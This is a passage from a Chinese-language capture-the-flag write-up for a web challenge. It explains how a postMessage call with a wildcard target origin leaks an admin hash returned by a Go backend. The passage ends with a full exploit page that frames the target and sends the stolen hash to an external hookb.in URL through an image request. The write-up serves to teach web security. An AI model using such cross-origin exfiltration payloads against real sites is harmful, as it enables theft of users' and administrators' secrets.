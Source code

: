 ```GO
		if isset == nil {
			if cookie.Value == CONFIG.admin_token {
				hash = CONFIG.admin_hash
				token = CONFIG.admin_token
			}
		}

		cookie = &http.Cookie{Name: "Token", Value: token, HttpOnly: true, Path: "/api"} // 设置Cookies
		result := Sanitized{Sanitized: string(sanitized_data), Raw: unsanitized.Raw, Hash: hash} // 返回的JSON
		http.SetCookie(w, cookie) 
        json.NewEncoder(w).Encode(result) // {Sanitized, Raw, Hash} 这里向前端返回了Hash用于后续的Save操作
	}
}
```

​	我们能够在前端Console中查看后端返回的Data，使用`data`，

![image-20210927160743166](/p1nant0m/img/in-post/post-inctf/image-20210927160743166.png)

​	注意到这里的Cookie被设置了为`HttpOnly`，这导致我们无法使用脚本去获取Cookie的值，

> ​	JavaScript [`Document.cookie`](https://developer.mozilla.org/zh-CN/docs/Web/API/Document/cookie) API 无法访问带有 `HttpOnly` 属性的cookie；此类 Cookie 仅作用于服务器。例如，持久化服务器端会话的 Cookie 不需要对 JavaScript 可用，而应具有 `HttpOnly` 属性。此预防措施有助于缓解[跨站点脚本（XSS） (en-US)](https://developer.mozilla.org/en-US/docs/Web/Security/Types_of_attacks)攻击。

​	从后端返回的Sanitized_Data被直接写入到HTMLBODY中，通过`document.body.innerHTML`设置，这样便可以确保被浏览器渲染的代码是安全的。

​	在`preview.js`中有一段对破题具有十分重要提示的代码

​																				`window.parent.postMessage(response, "*"); `  

​	这里的targetOrigin被设置为了`*`，这意味着任何载入该`frame`的页面都能够收到此`response`（response: {Sanitized, Raw, **Hash**}）

> ​	我们能够构造一段恶意的Script，在HTML中载入/demo的frame，接着让adminBot访问该页面，我们就能够获取admin身份下，response中的Hash，这段Hash的作用在之后的分析中还会提及。

恶意Script代码的构造，

```html
<script>
    function exploit() {
        document.getElementById("iframe").contentWindow.postMessage("Hello","*")
    }

    window.addEventListener("message",(event)=>{
        var img = new Image();
        img.src = "https://hookb.in/NOP1yLbpQwSe8mNN8mR2?hash=" + encodeURIComponent(event.data.Hash);
    },false);
</script>
<iframe src="http://localhost:8080/demo" id="iframe" onload="exploit()"></iframe>
```
